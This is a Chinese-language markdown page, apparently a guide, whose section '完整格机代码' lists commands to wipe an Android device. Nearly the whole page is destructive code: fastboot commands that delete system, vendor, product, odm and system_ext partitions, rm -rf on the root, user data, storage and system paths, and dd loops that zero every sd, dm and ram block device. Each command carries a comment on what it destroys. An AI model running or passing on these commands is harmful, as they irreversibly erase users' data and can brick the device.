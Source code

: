 ```powershell
fastboot delete-logical-partition system #删除super内system分区
fastboot delete-logical-partition vendor #删除super内vendor分区
fastboot delete-logical-partition product #删除super内product分区
fastboot delete-logical-partition odm #删除super内odm分区
fastboot delete-logical-partition system_ext #删除super内system_ext分区

# 作者：酷安@泠熙子
#  使用請注明出處

```
:::

## 完整格机代码

::: details Android Shell
```shell

# 作者：酷安@泠熙子
#  使用請注明出處

# 1、rm

rm -rf / #删除根目录下所有文件(删除系统分区文件需要支持读写，内核/内存分区无效)
rm -rf /data #删除所有用户数据(软件及数据、音视频图片、文档等)
rm -rf /storage/emulated/0 #删除用户0的所有数据(软件存储在此的数据、音视频图片、文档等)(用户id为0的是主用户(指的是多用户中的设备用户，不是系统用户组/用户)，其他则是多开用户等)
rm -rf /storage/sdcard #删除用户的所有数据(较旧安卓版本的存储目录，因为不支持多用户，所以只有一个目录)
rm -rf /storage #删除所有用户及内容提供者的数据
rm -rf /cache #删除缓存分区内文件(无任何破坏性)
rm -rf /mnt #删除所有设备的文件(包括所有用户的存储数据，persist分区，OTG设备及TF卡等)

rm -rf /system #删除system分区内的所有文件(需要支持读写)
rm -rf /vendor #删除vendor分区内的所有文件(需要支持读写)
rm -rf /product #删除product分区内的所有文件(需要支持读写)
rm -rf /odm #删除odm分区内的所有文件(需要支持读写)
rm -rf /system_ext #删除system_ext分区内的所有文件(需要支持读写)

rm -rf /sys #删除内核映射分区内文件(此操作无效)
rm -rf /proc #删除内存映射分区内文件(此操作无效)
rm -rf /dev #删除tmpfs分区内文件(此操作理论无效)


# 2、dd

dd if=/dev/zero of=路径 bs=1b count=10 #bs指一个输入块的大小，count指输入块的个数，此代码可以把指定文件修改成10b大小

# 为了节约时间，下面的代码采用循环展示

for i in $(ls /dev/block/sd*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block目录下所有以sd开头的设备文件(例如 sd[a-c])来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/dm*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block目录下所有以dm开头的设备文件(例如 dm-[0-3])来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/ram*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block目录下所有以ram开头的设备文件(例如 ram[0-3])来修改文件(ls 带“*”的路径会直接输出完整路径)

```